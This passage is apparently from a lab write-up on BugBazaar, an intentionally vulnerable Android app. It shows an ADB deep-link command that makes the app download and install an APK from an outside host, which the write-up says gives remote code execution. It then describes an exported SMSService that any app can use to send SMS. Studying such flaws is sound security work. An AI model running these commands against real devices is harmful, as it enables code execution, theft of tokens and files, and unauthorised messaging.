- **Trigger via ADB**:
    
    ```bash
    adb shell am start -W -a android.intent.action.VIEW \
    -d "bb://bugbazaar/offers?textMsg=test&offer=http://10.1.75.151:1234/app-debug.apk" \
    com.BugBazaar
    ```
    

---

###  Impact

Successful exploitation leads to **Remote Code Execution (RCE)** on the victim’s device.  
An attacker can:
-  Install and execute arbitrary payloads.
-  Steal sensitive data (cookies, tokens, files).
-  Manipulate or hijack the vulnerable app’s behavior.

---

## Insecure SMS Service

### TL;DR

The **BugBazaar** application exposes an Android Service (`SMSService`) that allows **any external app or user (via ADB)** to send SMS messages from the victim’s device.

Because the app already holds the **dangerous permission** `SEND_SMS`, attackers can **abuse this service without requesting the permission themselves**.


---

### Misconfigured Exported Service

In `AndroidManifest.xml`, the service is declared as:

```xml
<service
    android:name="com.BugBazaar.ui.components.SMSService"
    android:enabled="true"
    android:exported="true"/>
```

- `android:enabled="true"` → The service is active and available.
    
- `android:exported="true"` → The service is **publicly accessible** to other apps and system components, without restriction.
    

 This means _any app on the device_ (or ADB command) can start this service and control its behavior.

---

### Code Analysis
